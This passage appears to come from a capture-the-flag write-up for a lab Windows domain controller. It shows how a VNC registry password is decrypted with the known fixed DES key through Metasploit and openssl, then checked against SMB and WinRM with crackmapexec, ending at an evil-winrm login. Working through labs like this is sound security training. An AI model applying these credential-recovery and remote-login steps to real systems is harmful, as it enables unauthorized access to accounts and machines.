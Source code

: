 ---OUTPUT---
k�*KnZ�
```
- On searching online for "vnc registry file password decrypt" I came across a link:
	- https://github.com/frizb/PasswordDecrypts
		- There is a way via meterpreter :
			```bash
msf6 > irb
[*] Starting IRB shell...
[*] You are in the "framework" object

irb: warn: can't alias jobs from irb_jobs.
>> fixedkey = "\x17\x52\x6b\x06\x23\x4e\x58\x07"
=> "\x17Rk\x06#NX\a"
>> require 'rex/proto/rfb'
=> true
>> Rex::Proto::RFB::Cipher.decrypt ["6bcf2a4b6e5aca0f"].pack('H*'), fixedkey
=> "sT333ve2"
>> 
```
		- has more references to vnc password crack but also provides the command which I use with my data:
			```bash
echo -n 6bcf2a4b6e5aca0f | xxd -r -p | openssl enc -des-cbc --nopad --nosalt -K e84ad660c4721ae0 -iv 0000000000000000 -d -provider legacy -provider default | hexdump -Cv

---OUTPUT---
00000000  73 54 33 33 33 76 65 32                           |sT333ve2|
00000008
```
- We check these credentials with smb and winrm:
	```bash
crackmapexec smb 10.10.10.182 -u 's.smith' -p 'sT333ve2'
crackmapexec winrm 10.10.10.182 -u 's.smith' -p 'sT333ve2'

---OUTPUT-SMB---
SMB         10.10.10.182    445    CASC-DC1         [*] Windows 7 / Server 2008 R2 Build 7601 x64 (name:CASC-DC1) (domain:cascade.local) (signing:True) (SMBv1:False)
SMB         10.10.10.182    445    CASC-DC1         [+] cascade.local\s.smith:sT333ve2

---OUTPUT-WINRM---
SMB         10.10.10.182    5985   CASC-DC1         [*] Windows 7 / Server 2008 R2 Build 7601 (name:CASC-DC1) (domain:cascade.local)
HTTP        10.10.10.182    5985   CASC-DC1         [*] http://10.10.10.182:5985/wsman
/usr/lib/python3/dist-packages/spnego/_ntlm_raw/crypto.py:46: CryptographyDeprecationWarning: ARC4 has been moved to cryptography.hazmat.decrepit.ciphers.algorithms.ARC4 and will be removed from this module in 48.0.0.
  arc4 = algorithms.ARC4(self._key)
WINRM       10.10.10.182    5985   CASC-DC1         [+] cascade.local\s.smith:sT333ve2 (Pwn3d!)

```
	- We get a hit for both
- We login via winrm 
	```bash
evil-winrm -u 's.smith' -p 'sT333ve2' -i 10.10.10.182
